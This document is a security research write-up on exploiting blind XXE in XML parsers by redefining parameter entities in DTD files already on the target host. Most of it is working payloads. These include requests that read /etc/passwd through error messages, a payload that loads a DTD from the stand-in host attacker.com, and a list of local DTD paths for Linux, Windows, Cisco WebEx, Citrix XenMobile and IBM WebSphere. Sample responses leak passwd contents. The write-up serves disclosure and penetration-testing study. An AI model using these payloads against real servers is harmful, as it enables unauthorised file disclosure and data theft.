

# [Exploiting XXE with local DTD files](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)

https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/

This little technique can force your blind XXE to output anything you want!



## Why do we have trouble exploiting XXE in 2k18?

Imagine you have an XXE. External entities are supported, but the server’s response is always empty. In this case you have two options: **error-based** and **out-of-band** exploitation.

Consider this error-based example:

**Request**
```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % ext SYSTEM "http://attacker.com/ext.dtd">
    %ext;
]>
<message></message>
```

**Response**
```
java.io.FileNotFoundException: /nonexistent/  
**root:x:0:0:root:/root:/bin/bash  
bin:x:1:1:bin:/bin:/usr/bin/nologin  
daemon:x:2:2:daemon:/:/usr/bin/nologin  **
(No such file or directory)
```

**Contents of ext.dtd**

    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
    %eval;
    %error;

See? You are using an external server for payload delivery. What can you do if there is a firewall between you and the target server? Nothing!

What if we just put external DTD content directly in the DOCTYPE? Some errors will always appear:


**Request**

    <?xml version="1.0" ?>
    <!DOCTYPE message [
        <!ENTITY % file SYSTEM "file:///etc/passwd">
        <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
        %eval;
        %error;
    ]>
    <message></message>

**Response**

    Internal Error: SAX Parser Error. Detail:  
    The parameter entity reference “%file;” cannot occur within markup in the internal subset of the DTD.
    

External DTD allows us to include one entity inside the second, but it is prohibited in the internal DTD.

## What can we do with internal DTD?

To use external DTD syntax in the internal DTD subset, you can bruteforce a local dtd file on the target host and redefine some parameter-entity references inside it:


**Request**

    <?xml version="1.0" ?>
    <!DOCTYPE message [
        <!ENTITY % local_dtd SYSTEM "file:///opt/IBM/WebSphere/AppServer/properties/sip-app_1_0.dtd">

        <!ENTITY % condition 'aaa)>
            <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
            <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
            &#x25;eval;
            &#x25;error;
            <!ELEMENT aa (bb'>

        %local_dtd;
    ]>
    <message>any text</message>

**Response**

    java.io.FileNotFoundException: /nonexistent/  
    <span style="background: #D9FFAD;">root:x:0:0:root:/root:/bin/bash  
    bin:x:1:1:bin:/bin:/usr/bin/nologin  
    daemon:x:2:2:daemon:/:/usr/bin/nologin  
    </span>  
    (No such file or directory)

**Contents of sip-app_1_0.dtd**

    …
    <!ENTITY % condition "and | or | not | equal | contains | exists | subdomain-of">
    <!ELEMENT pattern (%condition;)>
    …

It works because all XML entities are constant. If you define two entities with the same name, only the first one will be used.

## How can we find a local dtd file?

Nothing is easier than enumerating files and directories. Below are a few more examples of successful applications of this trick:  

### Custom Linux System

    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamsa 'Your DTD code'>
    %local_dtd;

### Custom Windows System

    <!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">
    <!ENTITY % SuperClass '>Your DTD code<!ENTITY test "test"'>
    %local_dtd;

Thanks to @Mike_n1 from Positive Technologies for sharing this path of always-existing Windows DTD file.

### Cisco WebEx

### 

    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd">
    <!ENTITY % url.attribute.set '>Your DTD code<!ENTITY test "test"'>
    %local_dtd;

### Citrix XenMobile Server

    <!ENTITY % local_dtd SYSTEM "jar:file:///opt/sas/sw/tomcat/shared/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd">
    <!ENTITY % Body '>Your DTD code<!ENTITY test "test"'>
    %local_dtd;

### Custom Multi-Platform IBM WebSphere Application

    <!ENTITY % local_dtd SYSTEM "./../../properties/schemas/j2ee/XMLSchema.dtd">
    <!ENTITY % xs-datatypes 'Your DTD code'>
    <!ENTITY % simpleType "a">
    <!ENTITY % restriction "b">
    <!ENTITY % boolean "(c)">
    <!ENTITY % URIref "CDATA">
    <!ENTITY % XPathExpr "CDATA">
    <!ENTITY % QName "NMTOKEN">
    <!ENTITY % NCName "NMTOKEN">
    <!ENTITY % nonNegativeInteger "NMTOKEN">
    %local_dtd;

## Timeline

    01/01/2016 — Discovering the technique
    12/12/2018 — Writing the article :D
    13/12/2018 — Full disclosure
